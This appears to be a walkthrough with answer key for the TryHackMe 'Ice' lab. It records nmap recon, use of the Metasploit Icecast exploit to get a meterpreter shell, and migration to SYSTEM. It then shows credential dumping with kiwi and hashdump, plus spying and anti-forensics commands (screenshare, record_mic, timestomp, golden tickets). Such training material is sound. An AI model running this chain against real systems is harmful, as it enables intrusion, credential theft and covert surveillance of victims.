






> # Ice

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Recon](#task-2---recon)
    - [Task 3 - Gain Access](#task-3---gain-access)
    - [Task 4 - Escalate](#task-4---escalate)
    - [Task 5 - Looting](#task-5---looting)
    - [Task 6 - Post-Exploitation](#task-6---post-exploitation)

<!-- /TOC -->
## Task 2 - Recon
1. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?<br>
    Scan the target with `nmap` tool.<br>
    ```
    $ nmap 10.10.222.20 -Pn 
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 09:07 EDT
    Nmap scan report for 10.10.222.20
    Host is up (0.38s latency).
    Not shown: 988 closed tcp ports (conn-refused)
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49160/tcp open  unknown
    ```
    **Answer:** 3389

1. What service did nmap identify as running on port 8000? (First word of this service)<br>
    Use `-sV` flag and specify port 8000.<br>
    ```
    $ nmap 10.10.222.20 -Pn -sV -p8000
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 09:12 EDT
    Nmap scan report for 10.10.222.20
    Host is up (0.37s latency).

    PORT     STATE SERVICE VERSION
    8000/tcp open  http    Icecast streaming media server
    ```
    **Answer:** Icecast

1. What does Nmap identify as the hostname of the machine? (All caps for the answer)<br>
    Run `nmap` with `-A` flag.<br>
    <br>
    **Answer:** DARK-PC

## Task 3 - Gain Access
1.  What type of vulnerability is it?<br>
    Search Icecast and sort with score descending, I select the newest vulnerable.<br>
    <br>
    At line `Vulnerability type`, you will see the type.<br>
    <br>
    **Answer:** Execute CodeOverflow

1. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000<br>
    **Answer:** CVE-2004-1561

1. What is the full path (starting with exploit) for the exploitation module?<br>
    Type `msfconsole` in Kali Machine, then `search icecast`, you will see only one module asscociated with icecast.<br>
    <br>
    **Answer:** exploit/windows/http/icecast_header

1. Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?<br>
    Type `show options`, you will the required field but currently is blank.<br>
    <br>
    **Answer:** RHOSTS

## Task 4 - Escalate
1. Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?<br>
    Set RHOSTS to the target IP address and LHOST to your private IP when connect to Tryhackme using OpenVPN, then run the exploit and you will get a meterpreter.<br>
    <br>
    **Answer:** meterpreter

1. What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room.<br>
    Use `getuid` command.<br>
    ```
    meterpreter > getuid
    Server username: Dark-PC\Dark
    ```
    **Answer:** Dark

1. What build of Windows is the system?<br>
    Use `sysinfo` command.<br>
    ```
    meterpreter > sysinfo
    Computer        : DARK-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    ```
    **Answer:** 7601

1. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?<br>
    From previous question.<br>
    **Answer:** x64

1. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?<br>
    In this meterpreter, run the given command `run post/multi/recon/local_exploit_suggester`.<br>
    <br>
    Execute `getprivs` command.<br>
    <br>
    **Answer:** SeTakeOwnershipPrivilege

## Task 5 - Looting
1. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?<br>
    Use `ps` to list the running processes.<br>
    <br>
    **Answer:** spoolsv.exe

1. Let's check what user we are now with the command `getuid`. What user is listed?<br>
    ```
    meterpreter > migrate -N spoolsv.exe
    [*] Migrating from 348 to 1364...
    [*] Migration completed successfully.
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    ```
    **Answer:** NT AUTHORITY\SYSTEM

1. Which command allows up to retrieve all credentials?<br>
    Load kiwi and display help page.<br>
    <br>
    **Answer:** creds_all

1. What is Dark's password?<br>
    Run `creds_all` command.<br>
    <br>
    **Answer:** Password01!

## Task 6 - Post-Exploitation
1. What command allows us to dump all of the password hashes stored on the system? <br>
    ```
    hashdump      Dumps the contents of the SAM database
    ```
    **Answer:** hashdump

1. While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?<br>
    ```
    screenshare    Watch the remote user desktop in real time
    ```
    **Answer:** screenshare

1. How about if we wanted to record from a microphone attached to the system?<br>
    ```
    record_mic     Record audio from the default microphone for X seconds
    ```
    **Answer:** record_mic

1. To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.<br>
    ```
    timestomp     Manipulate file MACE attributes
    ```
    **Answer:** timestomp

1. Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?<br>
    ```
    golden_ticket_create   Create a golden kerberos ticket
    ```
    **Answer:** golden_ticket_create

